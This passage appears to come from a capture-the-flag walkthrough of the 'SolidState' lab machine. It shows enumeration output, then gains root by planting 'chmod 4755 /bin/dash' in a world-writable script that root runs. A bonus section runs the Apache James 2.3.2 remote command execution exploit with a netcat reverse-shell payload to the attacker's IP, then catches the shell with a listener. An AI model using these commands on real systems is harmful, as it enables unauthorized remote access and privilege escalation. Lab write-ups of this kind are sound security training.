-rwsr-xr-x 1 root root 57972 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 39632 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 48560 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 78340 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-- 1 root dip 363140 Nov 11  2016 /usr/sbin/pppd
-rwsr-xr-x 1 root root 13960 May 24  2017 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 525932 Jun 17  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 46436 Apr  5  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 9772 Jul  7  2017 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 13672 Jan 14  2017 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper


GUID files:
-rwxr-sr-x 1 root shadow 34568 May 27  2017 /sbin/unix_chkpwd
-rwxr-sr-x 1 root tty 26416 Mar 22  2017 /usr/bin/wall
-rwxr-sr-x 1 root shadow 22040 May 17  2017 /usr/bin/expiry
-rwxr-sr-x 1 root tty 9820 Apr 12  2017 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 66120 May 17  2017 /usr/bin/chage
-rwxr-sr-x 1 root crontab 39056 May  3  2015 /usr/bin/crontab
-rwxr-sr-x 1 root mail 18084 Jan 17  2017 /usr/bin/dotlockfile
-rwxr-sr-x 1 root ssh 431632 Jun 17  2017 /usr/bin/ssh-agent
-rwxr-sr-x 1 root utmp 5480 Feb 18  2016 /usr/lib/i386-linux-gnu/utempter/utempter
-rwxr-sr-x 1 root mail 13680 Mar 23  2017 /usr/lib/evolution/camel-lock-helper-1.2
-rwsr-sr-x 1 root root 9772 Jul  7  2017 /usr/lib/xorg/Xorg.wrap


World-writable files (excluding /proc):
-rwxrwxrwx 1 root root 190 Jan 27 19:26 /opt/tmp.py
--w--w--w- 1 root root 0 Jan 27 21:39 /sys/fs/cgroup/memory/cgroup.event_control


rhost config file(s) and file contents:
-rw------- 1 root root 0 Aug 22 13:41 /home/mindy/.rhosts


NFS displaying partitions and filesystems - you need to check if exotic filesystems
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
# / was on /dev/sda1 during installation
UUID=a28a8ba2-4b0a-4d2e-a369-12c85145f384 /               ext4    errors=remount-ro 0       1
# swap was on /dev/sda5 during installation
UUID=6cc53764-aad4-4383-9519-855f6d30eab8 none            swap    sw              0       0
/dev/sr0        /media/cdrom0   udf,iso9660 user,noauto     0       0


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 973 Jan 31  2017 /etc/mke2fs.conf
-rw-r--r-- 1 root root 1018 Jan 23  2017 /etc/usb_modeswitch.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 2683 Nov 22  2016 /etc/sysctl.conf
-rw-r--r-- 1 root root 191 Apr 12  2017 /etc/libaudit.conf
-rw-r--r-- 1 root root 1343 Jan  9  2007 /etc/wodim.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 769 Jan 22  2017 /etc/appstream.conf
-rw-r--r-- 1 root root 3173 May 29  2017 /etc/reportbug.conf
-rw-r--r-- 1 root root 2584 Aug  1  2016 /etc/gai.conf
-rw-r--r-- 1 root root 552 May 27  2017 /etc/pam.conf
-rw-r--r-- 1 root root 4781 Jan 24  2017 /etc/hdparm.conf
-rw-r--r-- 1 root root 2969 May 21  2017 /etc/debconf.conf
-rw-r--r-- 1 root root 540 Jun 18  2017 /etc/nsswitch.conf
-rw-r--r-- 1 root root 433 Aug  5  2016 /etc/apg.conf
-rw-r--r-- 1 root root 10368 Apr  5  2017 /etc/sensors3.conf
-rw-r--r-- 1 root root 26 Oct 30  2016 /etc/libao.conf
-rw-r--r-- 1 root root 4988 Mar 11  2017 /etc/rygel.conf
-rw-r--r-- 1 root root 2064 Nov 23  2006 /etc/netscsid.conf
-rw-r--r-- 1 root root 7649 Jun 18  2017 /etc/pnm2ppa.conf
-rw-r--r-- 1 root root 1131 Nov 20  2016 /etc/dleyna-server-service.conf
-rw-r--r-- 1 root root 1963 Jan 18  2017 /etc/rsyslog.conf
-rw-r--r-- 1 root root 2981 Jun 18  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 599 May  5  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 9 Aug  7  2006 /etc/host.conf
-rw-r--r-- 1 root root 346 Nov 30  2016 /etc/discover-modprobe.conf
-rw-r--r-- 1 root root 34 Apr  9  2017 /etc/ld.so.conf
-rw-r--r-- 1 root root 7431 Jun 18  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 604 Jun 26  2016 /etc/deluser.conf
-rw-r--r-- 1 root root 144 Jun 18  2017 /etc/kernel-img.conf


Current user's history files:
-rw-r--r-- 1 root root 0 Aug 22 13:41 /home/mindy/.bash_history


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Jun 18  2017 .
drwxr-xr-x 12 root root 4096 Aug 22 13:21 ..


### SCAN COMPLETE ####################################
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

os.system('/bin/cat /root/root.txt')
os.system('cat /root/root.txt > /tmp/exit.txt')
${debian_chroot:+($debian_chroot)}
mindy@solidstate:/dev/shm$
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('/usr/bin/touch /tmp/kan1shka9')
except:
     sys.exit()

os.system('/bin/cat /root/root.txt')
os.system('cat /root/root.txt > /tmp/exit.txt')
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /tmp
total 4
-rw-r--r-- 1 root root 33 Jan 27 22:12 exit.txt
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /tmp
total 4
-rw-r--r-- 1 root root 33 Jan 27 22:15 exit.txt
-rw-r--r-- 1 root root  0 Jan 27 22:15 kan1shka9
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ nano /opt/tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod 4755 /bin/dash')
except:
     sys.exit()

os.system('/bin/cat /root/root.txt')
os.system('cat /root/root.txt > /tmp/exit.txt')
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/dash
-rwxr-xr-x 1 root root 124492 Jan 24  2017 /bin/dash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ /bin/dash
$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
$
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```

```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/dash
-rwsr-xr-x 1 root root 124492 Jan 24  2017 /bin/dash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ /bin/dash
# id
uid=1001(mindy) gid=1001(mindy) euid=0(root) groups=1001(mindy)
# cd /root
# ls
kan1shka9  root.txt
```

```
# cat root.txt
b4c9723a28899b1c45db281d99cc87c9
#
```

```sh
mindy@solidstate:~$ cat user.txt
914d0a4ebc177889b5b89a23f556fd75
mindy@solidstate:~$
```

###### Bonus - Exploit JAMES smtpd 2.3.2

```sh
root@kali:~/solidstate# searchsploit james

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Apache James 2.2 - SMTP Denial of Service                                                                                                                           | exploits/multiple/dos/27915.pl
Apache James Server 2.3.2 - Remote Command Execution                                                                                                                | exploits/linux/remote/35513.py
WheresJames Webcam Publisher Beta 2.0.0014 - Remote Buffer Overflow                                                                                                 | exploits/windows/remote/944.c
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/solidstate#
```

```sh
root@kali:~/solidstate# nano 35513.py
root@kali:~/solidstate# cat 35513.py | grep "payload = "
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = 'nc -e /bin/bash 10.10.14.8 1234 &'
root@kali:~/solidstate#
```

```sh
root@kali:~/solidstate# python 35513.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
root@kali:~/solidstate#
```

```sh
root@kali:~# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan 27 23:22:25 2018 from 10.10.14.8
-rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-rbash: L: command not found
-rbash: attributestLjava/util/HashMap: No such file or directory
-rbash: L
         errorMessagetLjava/lang/String: No such file or directory
-rbash: L
         lastUpdatedtLjava/util/Date: No such file or directory
-rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-rbash: $'L\004nameq~\002L': command not found
-rbash: recipientstLjava/util/Collection: No such file or directory
-rbash: L: command not found
-rbash: $'remoteAddrq~\002L': command not found
-rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-rbash: @team.pl>
Message-ID: <4054205.0.1517098769261.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@solidstate
Received: from 10.10.14.14 ([10.10.14.14])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 1016
          for <../../../../../../../../etc/bash_completion.d@solidstate>;
          Sat, 27 Jan 2018 19:19:27 -0500 (EST)
Date: Sat, 27 Jan 2018 19:19:27 -0500 (EST)
From: team@team.pl

: No such file or directory

(UNKNOWN) [10.10.14.14] 1234 (?) : Connection timed out
-rbash: $'\r': command not found
-rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-rbash: L: command not found
-rbash: attributestLjava/util/HashMap: No such file or directory
-rbash: L
         errorMessagetLjava/lang/String: No such file or directory
-rbash: L
         lastUpdatedtLjava/util/Date: No such file or directory
-rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-rbash: $'L\004nameq~\002L': command not found
-rbash: recipientstLjava/util/Collection: No such file or directory
-rbash: L: command not found
-rbash: $'remoteAddrq~\002L': command not found
-rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
-rbash: @team.pl>
Message-ID: <5839625.1.1517113665805.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.8 ([10.10.14.8])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 999
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Sat, 27 Jan 2018 23:27:45 -0500 (EST)
Date: Sat, 27 Jan 2018 23:27:45 -0500 (EST)
From: team@team.pl

: No such file or directory
-rbash: $'\r': command not found
mindy@solidstate:~$
```

```sh
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
ls
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.51] 43512
bin
user.txt
cd bin
ls
cat
env
ls
python -c 'import pty; pty.spawn("/bin/bash")'
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/bin$
```

